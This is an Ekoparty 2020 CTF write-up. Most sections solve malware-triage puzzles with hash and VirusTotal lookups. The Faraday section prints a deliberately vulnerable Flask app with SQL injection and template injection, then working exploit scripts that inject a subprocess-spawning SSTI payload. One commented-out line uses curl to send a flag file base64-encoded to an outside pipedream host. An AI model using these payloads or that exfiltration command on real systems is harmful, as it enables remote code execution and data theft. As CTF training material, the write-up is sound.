

# Exe  
> A common hash function used to identify malware is SHA256, may you please tell us what is the value of the hash for this malware sample?  

This challenge is pretty straight forward. just unzip the malware and use any tool you like, I use [this online tool](https://emn178.github.io/online-tools/sha256_checksum.html).  
flag : EKO{eba35b2cd54bad60825f70fb121e324d559e7d9923b3a3583bb27dfd7e988d0c}

# ABCD  
> What's the name of this famous malware?  

We need some sort of database to find the name of the virus, this online tool, [virustotal](https://www.virustotal.com/gui/) for example, works just fine, we can see that a lot of antivirus actually recognize the malware, which is the flag.  
Flag : EKO{ryuk}

# Run  
> There are some antivirus products that cannot detect the following malware samples, can you name one of them?  

Using virustotal we can see that there are in fact some antivirus that can't detect this malware, just pick one of them.  
Flag : EKO{alibaba}  

# Cert  
> A malicious technique used by bad actors is to sign binaries with stolen certificates, this malware sample is signed by a chinesse company, the answer is the name of this company.  

Again using virus total, on the Detail section, we can see that the binary is actually signed by a company, I don't really remember the formatting because I made the writeup after the CTF ends, I think it also uses the `Co., LTD.`.  
Flag : EKO{Beijing Qihu Technology Co., Ltd.}  

# Deep  
> What's the ssdeep value of this malware sample?  

Using any tools that generate ssdeep value works, I use [virustotal](https://www.virustotal.com/gui/).  
Flag : EKO{1536:KCnGt1AnxGhRoE0JLEaolArglgidmpHACgaSz42tpAonFcP+i+9l:jG1hRoE0JLE8Qjg6aSk0LE+9l}  

# Obaphx  
> Name a suspicious or malicious MITRE technique used by the following malware.   

using virustotal we can see that the name of the malware is Nymeria and it's a trojan. after a little bit of googling I came across [this article](https://www.hybrid-analysis.com/sample/e26a4346b2d54653635cdfa35954369eabc8947b055b022a7e8e28b9bd692217) and that includes the MITRE ATT&Ck technique detection and we can just submit any of the technique marked as malicious or suspicious, I choose hooking.  
Flag : EKO{hooking}

# C&C1  
> this is a network capture of a generic trojan sample, may you please tell us the IP address of the C&C?  

When we open the pcap file given with wireshark, there is one suspicious IP address that sent an encrypted alert (around time 237) , which is actually the ip of the C&C.  
Flag : EKO{54.204.19.83}

# COVID19  
> This file was found on a COVID-19 related phishing campaign, may you find the secret inside the file?  

Looking at the file we can see that there is a suspiciously long string, by decoding it we can see some virus looking code but most importantly, the flag at the end.  

```python
cipher = (open("covid").read().split("\"")[1])[1:].split(") )")
flag = ""
for i in cipher:
	try:
		flag += chr(int(i,16))
	except Exception as e:
		break
print flag
```
```
$ python solve.py | grep EKO
EKO{super_infected}set startshe = wscript.createobject("wscript.shell")
```
Flag : EKO{super_infected}

# Discord  
> Oh oh! you will find the answer on our Discord channel!  

just go to the discord server, on the channel `#ctf-main` we can see the flag at the end of the description.  
Flag : EKO{flag-format}  

# Final  
fill the survey.  

# Indie  
> Relax and chill with this new indie game, maybe you'll be able to get some flags?  

I use [Cetus](https://github.com/Qwokka/Cetus) for this, it's basically a Cheat Engine for WebAssembly games. Just scan the value for the score and change it to one million, this solution is also used solve the challenge "Cheater", just by taking one more virus it will pop up the second part of the flag.  



Flag one : EKO{w3lc0m3_to*3k0-p4nd3mik}  
Flag two : EKO{AreYouACheater,ReverserOrGamer?}

# Cheater  
See "Indie"

# Wet
> This message was printed and got wet on a lousy mexican rain. Help us recover the flag.

We are given a png file that has a qrcode inside (but broken because of the rain :v)


Then i use [https://make8bitart.com/](https://make8bitart.com/) to recover the whole flag by manually tweaking it based on what i see from the wet qrcode


Then i use [https://zxing.org/w/decode.jspx](https://zxing.org/w/decode.jspx) to decode the qrcode as its using aztec kind of qrcode and zxing has a wide-range of supported algorithm (including aztec)...

Flag : EKO{tirate_un_flag}

# Clop
> This is one of the most dangerous malware sample, researchers usually protect these samples with a common password, extract the file and you will find the answer inside the sample.

We are given a zip file containing that malware sample, but indeed we have to crack the password first and as said in the description we can use common password, so i use rockyou.txt and i got the file containing flag

```bash
╭─f4r4w4y@blackrock ~/Documents/hacking/ctf/ekoparty2020 
╰─$ strings clop | grep -i eko
EKO{1nf3ct3d}
```

Flag : EKO{1nf3ct3d}

# Faraday
> Our DevOps deployed something on tight deadline, but it didnt go through QA

I didnt manage to create the writeup when this challenge still alive :(, but at least someone did manage to put the source code online so here we go.

There's a website containing some stuff inside, here is the step of the app :
- We got to choose what kind of event that we're attending
- We can input a subject, body, recipient

After looking at the inspect element we see that there is `/dump` endpoint and we can see the source code of the site there :

```python
#!/usr/bin/env python3
from flask import Flask, request, g, render_template, render_template_string, Response
from flask_mail import Mail, Message

import sqlite3
import os

app = Flask(__name__)

app.config['SECRET_KEY'] = 'una-cualquiera-fruta-fruta'
app.config['MAIL_SERVER'] = 'smtp.gmail.com'
app.config['MAIL_PORT'] = 465
app.config['MAIL_USERNAME'] = 'faradaysec@gmail.com'
app.config['MAIL_PASSWORD'] = os.environ['GMAIL_PASSWORD']
app.config['MAIL_USE_TLS'] = False
app.config['MAIL_USE_SSL'] = True

mail = Mail(app)
DATABASE = '/app/database.db'

acc_tmpl = '''
Se reporto un evento en SERVIDOR:
{{ mensaje }}
'''

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.isolation_level = None
        #db.row_factory = sqlite3.Row
        #db.text_factory = lambda x: str(x).replace('"', '&quot;').replace("'", '&#x27;').replace('<', '&lt;').replace('>', '&gt;')
    return db

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

def init_db():
    with app.app_context():
        db = get_db()
        with app.open_resource('schema.sql', mode='r') as f:
           db.cursor().executescript(f.read())
        db.commit()

def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value)) \
                for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv

@app.route('/sendMessage', methods=['POST'])
def sendMessage():
    if request.method == 'POST':
        msg = Message(request.form['subject'], sender = 'faradaysec@gmail.com', recipients = [request.form['dest']])
        msg.body = render_template_string(acc_tmpl.replace('SERVIDOR', query_db('SELECT nombre FROM usuarios ORDER BY usuario_id DESC', one=True)['nombre']), mensaje=request.form['body'])
        mail.send(msg)

        return render_template('enviado.html', dest=request.form['dest'])

@app.route('/profile')
def profile():
    name = request.args.get('name', '')
    if name:
        query_db('INSERT INTO usuarios (nombre) VALUES ("%s")' % name)

        return render_template('sender.html')
    return render_template('error.html')

@app.route('/')
def index():
    return render_template('base.html')

@app.route('/error')
def error():
    1/0

@app.route('/dump')
def dump():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000, debug=True)
```

There's a rabbit hole at `/error` (or so i thought) which will trigger an error and we know that debug mode is turned on, and that we can see the stack trace (but we cant do anything since we can't interact with it because the command console is locked with a pin)

So i start the hard way, by reviewing the code itself (you know why its hard ? because of the language that i dont understand XD, i gotta jump back and forth to google translate)

But after a while i noticed something good here (as the chall description said that this code didnt even pass the QA) so i know that we can reproduce the bug in this way :
- Going to `/profile` and putting `name` argument using some arbitrary template injection payload, this will make our payload stored in the db (specifically in `nombre` column inside `usuarios` table)
- Then when we make post request to `/sendMessage`, it will make a query of `query_db('SELECT nombre FROM usuarios ORDER BY usuario_id DESC', one=True)['nombre']` which means that it will take the one last inputted `nombre` in `usuarios` table and use it inside this code `msg.body = render_template_string(acc_tmpl.replace('SERVIDOR', thequery), mensaje=request.form['body'])`

  But here's the thing to consider, in acc_tmpl there is already a template string : `{{ mensaje }}` which turned out to be anothe rabbit hole if you try to inject your payload here because there are two template render in the code, the first one using `render_template_string` and the second one is using `render_template`, so if we put our payload on the `mensaje`, it won't triggered since the first template render will render it as a string thus we can't do anything with it.

  But it doesn't stop there since we can still inject our payload using the `SERVIDOR` part from the first template render

I tried my exploit code, it doesn't work and i was a little bit confused here at the time, but i notice that its such a bad challenge because our payload can actually be overriden by other people that try to exploit this chall too :( (because of the `insert and select from last` query)

So i inject my payload 5 times and i listen by always creating post request to `/sendMessage`

I used a simple flask ssti payload that's using `subprocess.Popen`

The first exploit code (to inject the payload) :
```python
import requests

payload = [
    # ' \'\'.__class__.__mro__[1].__subclasses__()[401](\'curl "https://aeb145bc424a63e5152a44b9404cf984.m.pipedream.net?flag="+$(cat flag.txt | base64)\', shell=True, stdout=-1).communicate() '
    ' \'\'.__class__.__mro__[1].__subclasses__()[401](\'strings * | base64\', shell=True, stdout=-1).communicate() '
]

ssti = 'https://faradaychallenge.herokuapp.com/profile?name={{%s}}'

for _ in range(5):
    for i in payload:
        a = requests.get(ssti % (i))
```

The second exploit code (to listen to the stored payload and see the result) :
```python
import requests
import time 

sendMessage = 'https://faradaychallenge.herokuapp.com/sendMessage'

counter = 0
while True:
    print(f'{counter}--------------------------------------------------------------------')
    counter += 1
    obj = {
        'dest': 'pastaflora%40faradaysec.com',
        'subject': 'asd',
        'body': 'asd',
    }
    x = requests.post(sendMessage, data = obj)
    try:
        print(x.text.split('<pre>')[1].split('</pre>')[0])
    except :
        print(x.text)
```

Notice that im using `strings *` in the payload which turned out that i can see other people payload that stored in the db too :v

FLAG : EKO{5d7f587b198f97aae048a40d9f46bc73}